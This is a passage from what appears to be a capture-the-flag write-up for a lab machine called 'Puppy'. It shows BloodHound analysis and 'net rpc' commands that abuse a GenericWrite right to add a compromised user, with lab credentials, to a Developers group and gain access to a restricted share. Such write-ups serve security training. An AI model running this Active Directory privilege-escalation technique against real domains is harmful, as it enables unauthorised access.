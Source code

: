 From the picture above , there is a suspicious share called “DEV” but the problem is that we have NO ACCESS to it using these initial creds . So let’s try and fire up Bloodhound to check if there is any relations that can access the DEV share.

![Description](/assets/images/Puppy/Screenshot_2.png)

From the image above, we can see that our initial user “levi.james” is a member of the “HR” which got a GenericWrite on the “Developers” group. So let’s go ahead and add ourselves to this target group

```bash
└─$ net rpc group addmem "developers" "levi.james" -U 'PUPPY/levi.james%KingofAkron2025!' -S 10.129.75.228
```

Okay now that we add ourselves succesfully to the group , we can go ahead and check if we are really a member of developers group now 

```bash
└─$ net  rpc group members "developers" -U 'PUPPY/levi.james%KingofAkron2025!' -S 10.129.75.228

PUPPY\levi.james
PUPPY\ant.edwards
PUPPY\adam.silver
PUPPY\jamie.williams
```
